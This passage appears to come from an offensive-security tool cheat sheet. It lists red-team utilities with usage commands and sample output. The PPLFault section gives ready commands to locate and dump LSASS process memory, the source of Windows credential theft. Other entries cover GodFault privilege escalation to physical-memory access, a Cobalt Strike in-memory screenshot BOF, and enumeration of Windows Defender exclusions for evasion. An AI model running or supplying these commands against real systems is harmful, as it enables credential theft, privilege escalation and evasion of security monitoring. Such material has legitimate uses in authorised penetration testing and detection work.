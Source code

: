 - Check the version and process list in PowerShell:
    - `cmd /c ver`
    - `tasklist | findstr lsass`
- Execute PPLFault to dump a process:
    - `.\PPLFault.exe -v 992 lsass.dmp`

**Example Output:**



 `[+] No cleanup necessary.  [+] Dump saved to: lsass.dmp  [+] Operation took 937 ms`

- Check for the dump file:
    - `dir *.dmp`


https://github.com/gabriellandau/PPLFault

#### GodFault

Leverages the same vulnerability as PPLFault to gain "God Mode" access, including opening `\Device\PhysicalMemory`.

**Example Usage:**

- Run GodFault to escalate privileges:
    - `C:\Users\user\Desktop>GodFault.exe -v`

**Example Output:**



 `[+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success  [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4`



https://github.com/boku7/halosgate-ps


#### ScreenShot-BOF

An in-memory screenshot utility for Cobalt Strike that avoids spawning new processes or injecting code.

**Compilation Instructions:**

- Use the appropriate "VS20xx x64 or x86 Cross Tools Command Prompt".
- Run `build.bat`.

**Usage in Cobalt Strike:**

- To execute, use the inline-execute command with the compiled object file:
    - `inline-execute pass-to-screenshot.o`



https://github.com/qwqdanchun/ScreenShot-BOF



#### Defender Exclusions BOF

**What**: This BOF is used to identify Windows Defender's configured exclusions, which may include certain extensions, processes, and folders.
